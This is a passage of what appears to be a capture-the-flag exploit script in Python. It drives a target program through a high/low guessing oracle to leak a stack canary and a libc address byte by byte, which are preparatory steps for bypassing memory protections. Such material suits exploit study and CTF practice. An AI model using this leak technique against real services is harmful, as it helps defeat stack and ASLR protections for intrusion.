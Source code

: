 ```
			depth = 0
			addition = 0
		else:
			addition += -1 * (0x100 // (2 ** (depth + 1)))
	else:
		canary += (0x10 ** ( 2 * i)) * my_guess
		print(hex(canary))
		i += 1
		depth = 0
		addition = 0
		count += 1
	if i == 8:
		break

i = 1
depth = 0
addition = 0
libc_leak = 0xb3

while True:
	print(target.recvuntil(b'(0-7)?'))
	target.sendline(str(0x30 + i).encode('ascii'))
	print(target.recvuntil(b'guess:'))
	my_guess = 0x100 // 2 + addition
	print(hex(my_guess))
	target.sendline(str(my_guess).encode('ascii'))
	result = target.recvuntil(b'Which')
	depth += 1
	print(depth)
	if b'low' in result:
		if depth == 7:
			my_guess += 1
			libc_leak += (0x10 ** (2 * i)) * my_guess
			print(hex(libc_leak))
			i += 1
			depth = 0
			addition = 0
			
		else:
			addition += 0x100 // (2 ** (depth + 1))
		
	elif b'high' in result:
		if depth == 7:
			my_guess -= 1
			libc_leak += (0x10 ** (2 * i)) * my_guess
			print(hex(libc_leak))
			i += 1
			depth = 0
			addition = 0
		else:
			addition += -1 * (0x100 // (2 ** (depth + 1)))
		if my_guess == 0x1:
			my_guess = 0
			libc_leak += (0x10 ** (2 * i)) * my_guess
			print(hex(libc_leak))
			i += 1
			depth = 0
			addition = 0
	else:
		libc_leak += (0x10 ** (2 * i)) * my_guess
		print(hex(libc_leak))
		i += 1
		depth = 0
```